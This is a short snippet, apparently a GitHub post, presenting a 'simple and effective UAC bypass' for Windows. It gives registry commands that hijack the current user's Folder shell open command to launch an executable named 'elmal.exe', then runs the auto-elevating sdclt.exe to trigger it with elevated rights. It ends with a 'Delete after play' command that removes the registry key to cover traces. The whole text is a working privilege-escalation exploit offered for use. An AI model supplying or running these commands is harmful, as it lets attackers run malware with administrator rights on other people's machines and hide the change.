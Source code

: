 **Simple and effective UAC bypass**
```
reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe /c elmal.exe" /f
reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f
```
Execute:
```
%windir%\system32\sdclt.exe
```

Delete after play:
```
reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f
```
